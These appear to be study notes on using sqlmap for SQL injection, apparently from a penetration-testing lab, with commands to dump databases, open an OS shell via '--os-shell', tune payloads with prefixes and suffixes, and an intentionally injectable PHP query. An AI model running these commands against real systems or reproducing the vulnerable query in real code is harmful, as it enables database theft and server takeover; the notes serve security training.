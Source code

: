 

# INJECTION METHODS


-  SQL INJECTION IN COOKIE

```
sqlmap -u "http://94.237.53.53:33035/case3.php" --batch --dump --cookie="id=1*"
```

-  SQL INJECTION IN JSON DATA

```
sqlmap -r req.txt --dump --os-shell
```

# Handling SQLMap Errors

- Display Errors

```
--parse-errors
```

show error in output

- Store the Traffic

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```
stores traffic in traffic.txt

- Verbose Output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

- Using Proxy

```
--proxy=http://127.0.0.1:8080
```

# Attack Tuning

- adding prefix and suffix to the payload
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

works perfectly in this situation

- Level/Risk

```
- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
```



